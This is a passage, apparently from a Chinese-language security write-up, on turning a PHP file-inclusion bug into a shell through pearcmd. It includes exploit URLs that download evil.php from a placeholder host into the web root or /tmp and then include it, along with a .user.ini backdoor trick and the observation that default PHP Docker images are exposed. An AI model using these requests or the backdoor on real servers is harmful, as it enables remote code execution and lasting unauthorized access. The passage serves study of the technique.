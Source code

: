 - 存在可控的`include $_GET['f']`(即使是`include $_GET['f'].php`)

那么我们就可以通过上面的知识实现任意文件下载从而getshell:

 ```
 // web目录可写
 - http://ip:port/include.php?f=pearcmd&+install+-R+/var/www/html+http://ip:port/evil.php
 - http://ip:port/tmp/pear/download/evil.php
 // tmp目录可写
 - http://ip:port/include.php?f=pearcmd&+install+-R+/tmp+http://ip:port/evil.php
 - http://ip:port/include.php?f=/tmp/pear/download/evil
 ```


## 后门

前面提到register_argc_argv是PHP INI PERDIR的,所以我们可以通过新建一个.user.ini设置register_argc_argv为On用于留后门

## 最后:docker

在php官方提供的镜像下,默认是不使用php.ini的(在/usr/local/etc/php中存在php.ini-production和php.ini-development,需要手动修改任意一个文件名为php.ini才会启动php.ini,而上面我们提到在php.ini中register_argc_argv都设置为Off)

而register_argc_argv在不设置的情况下默认为On,那么假如有一个默认的docker-php环境,并存在可控的`include $_GET['f']`(即使是include $_GET['f'].php),我们就可以利用这个漏洞实现getshell

